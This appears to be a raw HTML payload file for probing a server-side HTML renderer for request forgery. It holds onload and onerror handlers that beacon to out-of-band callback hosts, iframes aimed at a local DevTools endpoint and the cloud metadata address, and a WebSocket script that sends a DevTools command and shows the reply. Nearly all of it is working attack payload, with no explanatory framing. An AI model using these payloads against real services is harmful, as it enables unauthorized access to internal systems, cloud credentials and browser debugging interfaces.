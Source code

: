 Hello
<body onload="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://7u2mvavbiotucxmybqdphq1o6fc60zoo.oastify.com', true); xhr.send();}, 1000);">


1st
<iframe src="http://localhost:3000/json" width="800" height="600"></iframe>
2nd
<iframe src="http://localhost:3000/json/version" width="800" height="600"></iframe>
3rd
<iframe src="http://169.254.169.254/latest" width="800" height="600"></iframe>
4th
<iframe src="https://app.adora.so" width="800" height="600"></iframe>
5th
<object data="https://example.com" type="video/mp4" width="600" height="400"></object>
6th
<div id="output"></div>
<script>
  var ws = new WebSocket('ws://localhost:3000');
  ws.onerror = console.error;
  ws.onclose = console.log;
  ws.onmessage = ev => {
    document.getElementById('output').innerText = ev.data;
  };
  ws.onopen = () => {
    ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
  };
</script>



<img src="image.png", onerror="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://dyfszgzhmux0g3q4fwhvlw5ualgc44st.oastify.com', true); xhr.send();}, 1000);">

